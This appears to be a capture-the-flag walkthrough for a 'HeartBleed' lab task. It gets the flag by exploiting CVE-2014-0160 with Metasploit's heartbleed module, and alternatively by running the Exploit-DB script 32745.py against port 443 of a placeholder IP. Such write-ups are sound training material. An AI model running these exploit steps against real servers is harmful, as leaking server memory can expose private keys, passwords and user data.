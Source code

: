 # HeartBleed

## In this task, you need to obtain a flag using a very well-known vulnerability. Make sure you pay attention to all the information and errors displayed. Pay particular attention to how web servers are configured.

### What is the flag?

Hint: `https://<ip>`

1. Exploit vulnerability using Metasploit

```Bash
msfconsole -q
search heartbleed
use 4
```

![SCREEN01](https://github.com/user-attachments/assets/9b029ace-6c78-4483-ab9b-c789023244d2)

```Bash
set rhosts <IP>
set verbose true
run
```

![SCREEN02](https://github.com/user-attachments/assets/f0d49602-cc80-47f0-967d-8faf7ee413e5)

2. Get the flag from message

![SCREEN03](https://github.com/user-attachments/assets/d0145b6d-d2df-4ba0-aeff-cf15e8949ac7)

### Alternative way:

1. Run the [CVE 2014-0160](https://www.exploit-db.com/exploits/32745) exploit (Remember to set scrollback to 'Unlimited')

```Bash
python 32745.py <IP> -p 443
```
![SCREEN04](https://github.com/user-attachments/assets/51362b41-a6c6-4ac1-83f0-72d9408e6ed8)
![SCREEN05](https://github.com/user-attachments/assets/183c3a81-9a75-45a3-8ae9-7eaf79e5d1ad)

